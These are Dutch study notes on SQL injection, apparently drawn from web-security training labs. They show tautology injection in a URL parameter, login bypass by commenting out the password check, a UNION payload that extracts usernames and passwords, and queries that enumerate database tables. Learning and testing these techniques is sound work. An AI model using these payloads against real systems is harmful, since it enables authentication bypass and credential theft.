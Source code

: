 Vb2
- URL: https://insecurewebsite.com/products?category=Gifts'+OR+1=1--
- Onderliggende query: (alle Gifts worden getoond)
  ```sql
  SELECT *
  FROM products
  WHERE category = 'Gifts' OR 1=1--' AND released = 1
  ```

### Subverting app logic
- Originele query
  ```sql
  SELECT *
  FROM users
  WHERE username='wiener' AND password='bluecheese'
  ```
- Aangepaste query
  ```sql
  SELECT *
  FROM users
  WHERE username='administrator'--' AND password=''
  ```
- Verder aangepaste query
  ```sql
  SELECT *
  FROM users
  WHERE username='administrator' or 1=1--' AND password=''
  ```

### Retrieving data from other DB tbls
- Originele query
  ```sql
  SELECT name, description
  FROM products
  WHERE category = 'Gifts'
  ```
- Uitbreiden met
  ```sql
  ' UNION SELECT username, password FROM users--
  ```

### Examining the database
- Versie nummer SQL server
  ```sql
  SELECT @@version;
  ```
- Beschikbare tabellen in db
  ```sql
  SELECT *
  FROM information_schema.tables
  ```

### Blind SQL injection vulnerabilities
- Applicatie toont resultaten van SQL query of details van errors niet in zen reacties
- Blind vulnerabilities kunnen nog steeds exploit worden, maar technieken zijn ingewikkelder en moeilijker
- Common techniques: Boolean logic, trigger an error (divide-by-zero)
